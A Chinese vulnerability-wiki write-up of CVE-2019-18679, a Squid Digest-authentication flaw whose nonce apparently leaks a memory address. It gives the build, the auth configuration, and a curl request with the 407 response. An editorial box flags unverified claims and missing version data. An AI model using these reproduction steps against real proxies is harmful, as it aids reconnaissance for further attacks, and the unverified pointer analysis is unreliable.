




# （CVE-2019-18679）Squid 敏感信息泄漏

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Digest authentication enabled; demonstrated with Squid 3.5.28, helper configuration incomplete
- 证据范围：Source discussion and 407 response support a nonce disclosure investigation, but the article conflates base64-encoded nonce data with encoding the nonce structure address itself; exact layout and leaked pointer need verification.

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Affected-version section empty and no fixed version
- auth_param helper path remains placeholder and ACL/http_access rules requiring proxy authentication are absent
- Raw nonce is shown but not decoded into documented platform-specific fields, so pointer inference is not demonstrated in text
- Repeated screenshot path fragments require cleanup

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Squid是一个开源的高性能的代理缓存服务器。它接受来自客户端的请求并适当地处理这些请求。例如，如果一个人想下载一web页面，他请求Squid为他取得这个页面。Squid随之连接到远程服务器并向这个页面发出请求。然后，Squid显式地聚集数据到客户端机器，而且同时复制一份。当下一次有人需要同一页面时，Squid可以简单地从磁盘中读到它，那样数据迅即就会传输到客户机上。当前的Squid可以处理HTTP，FTP，GOPHER，SSL和WAIS等协议。

几个月之前，Synacktiv
teams对Squid的源码进行审计，发现了几个漏洞，其中一个是在Digest
authentication过程中触发的敏感信息泄漏漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

漏洞发生在fixHeader函数。nonce变量通过authenticateDigestNonceNew函数申请，authenticateDigestNonceNonceb64取出nonce变量的值，通过httpHeaderPutStrf发送给客户端。

Squid敏感信息泄漏/media/rId25.jpg)authenticateDigestNonceNonceb64函数单纯的取出了nonce-\>key的值，重点看下nonce变量和nonce-\>key的赋值过程。

Squid敏感信息泄漏/media/rId26.png)

函数authenticateDigestNonceNew申请nonce变量Squid敏感信息泄漏/media/rId27.png)

authDigestNonceEncode函数对nonce-\>noncedata的地址base64编码，赋值给nonce-\>key

Squid敏感信息泄漏/media/rId28.png)

最后response
header中的nonce字段就是base64编码之后的nonce-\>noncedata的地址。

### 漏洞复现

下载Squid有漏洞的版本，这里我选择了squid/3.5.28。编译安装

    ./configure --enable-auth --enable-auth-digest
    make -j4
    make install

安装完成之后squid的主要目录结构如下：

    /usr/local/squid/
        ├── sbin
        │   └── squid             //squid程序
        ├── libexec               //辅助程序
        │   ├── basic_smb_auth
        │   └── digest_file_auth
        └── etc
        │   └── squid.conf       //配置文件
        └── logs                 //运行日志
            ├── access.log
            └── cache.log

修改配置文件，增加一些内容开启digest auth。

    auth_param digest program <path to program>
    auth_param digest children 8
    auth_param digest realm Access to Squid
    auth_param digest nonce_garbage_interval 10 minutes
    auth_param digest nonce_max_duration 45 minutes
    auth_param digest nonce_max_count 100
    auth_param digest nonce_strictness on

运行squid程序，通过squid代理，访问某个网站。返回header中nonce字段就是泄漏的内存地址。

    curl -I -x 192.168.6.22:3128 https://www.0-sec.org/

    HTTP/1.1 407 Proxy Authentication Required
    Server: squid/3.5.28
    Mime-Version: 1.0
    Date: Wed, 13 May 2020 13:28:15 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 3526
    X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
    Vary: Accept-Language
    Content-Language: en
    Proxy-Authenticate: Digest realm="Access to Squid", nonce="7/W7XgAAAABwTjQEilUAAE+y+jgAAAAA", qop="auth", stale=false
    X-Cache: MISS from test
    Via: 1.1 test (squid/3.5.28)
    Connection: keep-alive

参考链接
--------

> https://xz.aliyun.com/t/7771
